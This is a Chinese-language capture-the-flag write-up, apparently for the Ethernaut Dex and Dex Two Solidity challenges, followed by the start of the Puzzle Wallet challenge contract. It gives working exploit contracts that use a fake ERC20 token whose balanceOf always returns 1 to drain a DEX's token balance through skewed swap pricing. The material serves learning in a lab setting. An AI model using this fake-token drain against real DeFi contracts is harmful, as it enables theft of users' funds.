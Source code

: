 题意就是玩家账户上的 token1 和 token2 都各有 10 个 token，而题目账户上有 100 个，目的是把题目账户上的某个 token 清零

题目的 Dex 合约主要提供了 swap 这个函数用来在两个 token 间交换金额。但是转出的时候先调用了 get_swap_price 来计算金额，而且在其中调用的是两方格子的 balanceOf 函数。因此可以构造一个新的 IERC20 的 token，让它的 balanceOf 始终返回 1，作为分母，这样转出的时候就会转出题目 token 中的所有余额了

Dex Two 和 Dex 差别就在于 DexTwo 需要将两个 token 都置为 0，用 exp 函数分别打下 token1 和 token2 就行

???+ done "exp"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    /* code of Dex */

    contract ExploitToken {
        function balanceOf(address account) public view returns (uint256) {
            return 1;
        }
        function transferFrom(address, address, uint256) public returns (bool) {
            return true;
        }
    }

    contract Exploit {
        address token = address(new ExploitToken());
        Dex challenge;
        constructor(address addr) public {
            challenge = Dex(addr);
        }
        function exp(address token1) public {
            challenge.swap(token, token1, 1);
        }
    }
    ```

---

## Puzzle Wallet

??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;
    pragma experimental ABIEncoderV2;

    import "@openzeppelin/contracts/math/SafeMath.sol";
    import "@openzeppelin/contracts/proxy/UpgradeableProxy.sol";

    contract PuzzleProxy is UpgradeableProxy {
        address public pendingAdmin;
        address public admin;

        constructor(address _admin, address _implementation, bytes memory _initData) UpgradeableProxy(_implementation, _initData) public {
            admin = _admin;
        }
